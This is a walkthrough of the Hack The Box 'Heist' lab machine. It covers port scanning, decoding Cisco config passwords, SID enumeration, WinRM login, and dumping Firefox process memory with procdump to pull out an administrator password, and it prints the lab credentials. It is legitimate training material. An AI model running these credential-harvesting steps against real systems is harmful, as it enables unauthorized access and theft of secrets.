 ```yaml
---
title: "Hackthebox Heist Walkthrough"
layout: "post"
categories: [Hackthebox, Windows]
tags: ["procdump", "HackTheBox", "Writeup"]
---
```


![Heist](/assets/img/posts/heist.png)

tl;dr : I made this box on a machine that is not mine (a basic Kali, normally I use arch)

## Reconnaissance

As always we do, let's start with nmap scanning.

```bash
Ap4sh@zzz:~/htb/heist$ sudo nmap -sC -sV -oN nmap/hesit-top-ports 10.10.10.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 06:18 EDT
Nmap scan report for 10.10.10.149
Host is up (0.076s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 12m28s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-03T10:31:08
|_  start_date: N/A


```

We have 3 ports open which are default http and smb service ports. On smb we cannot do anything for now. It's required authentication. 

There is a login page which is written in PHP on HTTP service. We can visit there by following 80 port. Doing fuzzing process we can see what kind of files we reach on web server.

```bash
Ap4sh@zzz:~/htb/heist$ gobuster dir -u http://heist.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php,txt,html,sql
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://heist.htb
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html,sql
[+] Timeout:        10s
===============================================================
2021/07/03 06:33:13 Starting gobuster
===============================================================
/login.php (Status: 200)
/images (Status: 301)
/js (Status: 301)
/index.php (Status: 302)
/css (Status: 301)
/attachments (Status: 301)
/. (Status: 302)
/errorpage.php (Status: 200)
/issues.php (Status: 302)

```

There is a lot file that we can check but once we login as guest user, we'll see a conversation between Hazard and Support Admin. Once we click attachment link we can see there are usernames and encoded passwords which are seem like belonging to Cisco Router config file. After cracking the passwords we'll get following decoded passwords.

```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91 -> stealth1agent
0242114B0E143F015F5D1E161713 -> $uperP@ssword
02375012182C1A1D751618034F36415408 -> Q4)sJu\Y8qz*A3?d
```

We can list shared folders with `Hazard` and `stealth1agent` credentials but we have no access on these folders.

```bash
Ap4sh@zzz:~/htb/heist$ smbmap -H 10.10.10.149 -u 'Hazard' -p 'stealth1agent'
[+] IP: 10.10.10.149:445        Name: heist.htb                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC


```


For more enumeration I tried enum4linux tool but `SID` is required for these creds. After that I used one of the impacket tools called `lookupsid.py` for user enumeration and found there are many user such as Chase, Jason etc.

```bash
Ap4sh@zzz:~/htb/heist$ python3 lookupsid.py Hazard:stealth1agent@heist.htb
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at heist.htb
[*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

```

Now we can try passwords that we found before on these users. On smb I could not get access again. After a full port scanning we can see there is another port which is 5985.

```bash
Ap4sh@zzz:~/htb/heist$ nmap -sV -p- heist.htb -oN nmap/heist-all-ports -v
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 07:18 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 07:18
Nmap scan report for heist.htb (10.10.10.149)
Host is up (0.074s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Getting Initial Access

We can try to get initial access with the usernames and passwords on this port via evil-winrm. 

![Getting Access](/assets/img/posts/heist/access.png)

After some searching on the box I saw there is firefox.exe and there are running processes that belong to firefox.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> ps                                                                                                       
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                                                                                                                                      
-------  ------    -----      -----     ------     --  -- -----------                                                                                               
    355      25    16352     297340       0.09   6100   1 firefox          
   1049      77   206088     559208       7.91   6644   1 firefox          
    347      19     9968      34768       0.08   6752   1 firefox
    401      36    51716     111188       1.14   6880   1 firefox
    378      30    35104      71328       0.88   7152   1 firefox  
```

Let's upload `procdump` and dump one of these process.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> upload procdump64.exe                                                                                                                                                          
Info: Uploading procdump64.exe to C:\Users\Chase\Desktop\procdump64.exe                    
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> dir                           
Mode                LastWriteTime         Length Name             
----                -------------         ------ ----
-a----         7/3/2021   5:24 PM         384888 procdump64.exe             
-a----        4/22/2019   9:08 AM            121 todo.txt   
-a----        4/22/2019   9:07 AM             32 user.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop>./procdump64.exe -accepteula -ma 6100

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:40:02] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp
[17:40:02] Dump 1 writing: Estimated dump file size is 298 MB.
[17:40:03] Dump 1 complete: 298 MB written in 0.4 seconds
[17:40:03] Dump count reached.


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> download firefox.exe_210703_174002.dmp
Info: Downloading C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp to firefox.exe_210703_174002.dmp

```

## Privilege Escalation

After got this dump, we can see human readable text with string command and we can search whatever we want.

```bash
Ap4sh@zzz:~/htb/heist$ strings firefox.exe_210703_174002.dmp | grep -n "login_password"
844:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2304:RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2356:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

As final step, once we use this password with Administrator account we can get full privilige on the system.

![Getting Admin Privileges](/assets/img/posts/heist/getting_admin.png)

That was a **REALLY** easy machine.
